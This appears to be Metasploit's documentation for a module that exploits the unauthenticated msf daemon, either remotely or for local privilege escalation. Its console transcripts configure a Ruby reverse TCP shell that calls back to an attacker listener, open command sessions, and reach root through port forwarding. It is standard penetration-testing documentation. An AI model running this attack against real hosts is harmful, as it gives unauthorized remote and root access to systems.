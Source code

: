 ## Description

This module connects to the Metasploit msf daemon and uses the ruby interpreter
to achieve a shell. This module can target remote systems if the daemon is
exposed on a remote interface or it can be used for privilege escalation when
the attacker has a foothold. If used as privilege escalation, port forwarding
must be set up.

## Vulnerable Application

[Metasploit](https://github.com/rapid7/metasploit-framework) has a legacy method
of providing remote access. The msf daemon provides no means of authentication
and is therefore vulnerable against an attacker who has IP access to the daemon.

All versions of Metasploit are affected by this module, however testing has only
been performed on the following targets:

* Metasploit 5.0.0 on Ubuntu 16.04
* Metasploit 4.16.51 on Windows 7

Source code and installers:

  * [Source Code Repository](https://github.com/rapid7/metasploit-framework)
  * [Installers](https://docs.metasploit.com/docs/development/maintainers/downloads-by-version.html)

## Verification Steps

1. Start the vulnerable service: `msfd -f -q -a 0.0.0.0`
2. Start `msfconsole`
3. Do: `use exploit/multi/misc/msfd_rce_remote`
4. Do: `set RHOST [IP]`
5. Do: `set RPORT [PORT]` (default: `55554`)
6. Do: `set PAYLOAD [PAYLOAD]`
7. Do: `exploit`
8. You should get a shell


## Options

  **RHOST**

  Remote Host

  **RPORT**

  Remote port the vulnerable service is running at, default is 55554.


## Scenarios

### Remote target

  ```
  msf > use exploit/multi/misc/msfd_rce_remote
  msf exploit(multi/misc/msfd_rce_remote) > set rhost 192.168.56.101
  rhost => 192.168.56.101
  msf exploit(multi/misc/msfd_rce_remote) > set payload ruby/shell_reverse_tcp
  payload => ruby/shell_reverse_tcp
  msf exploit(multi/misc/msfd_rce_remote) > set lhost 192.168.0.17
  lhost => 192.168.0.17
  msf exploit(multi/misc/msfd_rce_remote) > set lport 443
  lport => 443
  msf exploit(multi/misc/msfd_rce_remote) > exploit

  [-] Handler failed to bind to 192.168.0.17:443:-  -
  [*] Started reverse TCP handler on 0.0.0.0:443
  [*] Command shell session 1 opened (172.17.0.2:443 -> 192.168.0.17:48152) at 2018-04-22 18:43:41 +0000

  whoami
  robin
  ```


### Local target - privilege escalation

  ```
  meterpreter > getuid
  Server username: uid=1000, gid=1000, euid=1000, egid=1000
  meterpreter > shell
  Process 17366 created.
  Channel 1 created.
  netstat -lntup|grep 55554
  (Not all processes could be identified, non-owned process info
   will not be shown, you would have to be root to see it all.)
  tcp        0      0 127.0.0.1:55554         0.0.0.0:*      LISTEN -
  ps aux | grep msfd
  root     17303  3.3 13.8 535168 283492 pts/18  Sl+  20:47   0:08 ruby ./msfd -f -q
  ^C
  Terminate channel 1? [y/N]  y
  meterpreter > portfwd add -l 55554 -p 55554 -r 127.0.0.1
  [*] Local TCP relay created: :55554 <-> 127.0.0.1:55554
  meterpreter > background
  [*] Backgrounding session 2...
  msf > use exploit/multi/misc/msfd_rce_remote
  msf exploit(multi/misc/msfd_rce_remote) > set rhost 127.0.0.1
  rhost => 127.0.0.1
  msf exploit(multi/misc/msfd_rce_remote) > exploit

  [-] Handler failed to bind to 192.168.0.17:443:-  -
  [*] Started reverse TCP handler on 0.0.0.0:443
  [*] Command shell session 3 opened (172.17.0.2:443 -> 192.168.0.17:48300) at 2018-04-22 18:55:19 +0000

  id
  uid=0(root) gid=0(root) groups=0(root)
  ```

